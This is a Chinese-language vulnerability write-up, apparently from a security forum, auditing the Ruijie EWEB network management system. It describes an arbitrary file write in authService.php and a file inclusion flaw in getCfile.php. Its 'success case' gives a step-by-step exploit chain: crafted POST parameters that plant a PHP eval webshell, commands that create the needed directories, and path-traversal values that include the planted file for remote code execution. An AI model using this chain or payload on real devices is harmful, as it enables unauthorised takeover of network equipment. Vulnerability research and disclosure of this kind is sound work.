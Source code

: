 漏洞名称：
=====

锐捷网络-EWEB网管系统文件包含漏洞

一、审计步骤：
=======

（一）查找写入文件函数：
------------

自动化审计，在这个/auth\_pi/authService.php文件下发现file\_put\_contents函数可控，跟进该文件。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d53bdea78b945b28f529b24bc13bc71b70c2006e.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d53bdea78b945b28f529b24bc13bc71b70c2006e.png)  
/auth\_pi/authService.php文件的set\_authAction方法。在76行的提醒语句也说明了该info文件在user\_auth目录下,而且也未对userName进行安全过滤，这里可以任意路径创建文件。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c9db9447381617ba5aa39860d92a71e224e38bf4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c9db9447381617ba5aa39860d92a71e224e38bf4.png)  
而P方法存在于/mvc/lib/core.function.php的类里面，是用来接收POST传参。[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f23fc1756c0ef76032177995a1485f10b4b1f857.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f23fc1756c0ef76032177995a1485f10b4b1f857.png)  
利用方式：  
1：post请求  
2：请求参数a=set\_auth  
3：参数为userName、auth  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9191993e17ce3040f5b9c4f7cf65b15d0270fa24.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9191993e17ce3040f5b9c4f7cf65b15d0270fa24.png)[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ca31c7015e2e4d75edb2d3fc2fcb8f2e9e601b17.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ca31c7015e2e4d75edb2d3fc2fcb8f2e9e601b17.png)

（二）查找文件包含函数：
------------

自动化审计，在这个/local/auth/php/getCfile.php文件下发现include 函数可控，跟进该文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3114ec67f1532669ff6feb4e09b6362e993d358d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3114ec67f1532669ff6feb4e09b6362e993d358d.png)  
这个文件通过post方式传参但是并没有对cf参数进行安全过滤  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7c9bc31d2eddb2bb9d9a0fc4ec5fcd4a75f90716.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7c9bc31d2eddb2bb9d9a0fc4ec5fcd4a75f90716.png)  
利用方式：  
1：post请求  
2：必须存在tmp/user\_auth/cfile目录或者自己创建  
3：参数为cf、&amp;field=1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b457f7d87c6c4f3b057030a3149b1ca48d2feb2f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b457f7d87c6c4f3b057030a3149b1ca48d2feb2f.png)

将文件全部放到www目录下，由于本地环境不是真实站点，所以在www目录下创建tmp文件，并创建test.info,这里说一下getCfile.php默认是找tmp/app\_auth/cfile/下的文件，所以要用../../返回到tmp根目录。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a846918a15756c349c67884e2955a782b5855ebf.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a846918a15756c349c67884e2955a782b5855ebf.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1d1df579fa6ddf50c7fb6691272bc1c6f0af7182.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1d1df579fa6ddf50c7fb6691272bc1c6f0af7182.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e27e916dd77238868e9d2b191c26d654f2bbbe6b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e27e916dd77238868e9d2b191c26d654f2bbbe6b.png)

成功案例：
=====

步骤一：写文件
-------

利用方式：  
1：post请求/auth\_pi/authService.php  
2：请求参数a=set\_auth  
3：参数为userName、auth  
登录后抓包将任意数据包的请求路径改成，  
“/auth\_pi/authService.php?a=set\_auth”，将请求参数添加或者改成userName=tr1&amp;auth=[?php%20@eval($\_POST\['w'\]);?](mailto:?php%20@eval($_POST%5B'w'%5D);?)  
userName参数可以为任意字符，包含的时候必须为userName参数.info文件。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a32f52840e9cc8994bd00123522ebeab5425de90.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a32f52840e9cc8994bd00123522ebeab5425de90.png)

创建目录：
-----

通过（  
command=cd+tmp  
command=mkdir+app\_auth  
command=cd+app\_auth  
command=mkdir+cfile  
）命令创建tmp/app\_auth/cfile/目录

步骤二：文件包含
--------

利用方式：  
1：post请求/local/auth/php/getCfile.php  
2：请求参数cf=../../../data/userName参数.info，登录后抓包将任意数据包的请求路径改成/local/auth/php/getCfile.php，请求参数添加或者改为  
cf=../../../data/tr.info  
3：&amp;w=phpinfo();是一句话连接密码

### 注意：有时候../../../data/user\_auth/userName参数.info才能包含

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-769f72ab8d9f4efd08e3617a81ce0d53e4d593cc.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-769f72ab8d9f4efd08e3617a81ce0d53e4d593cc.png)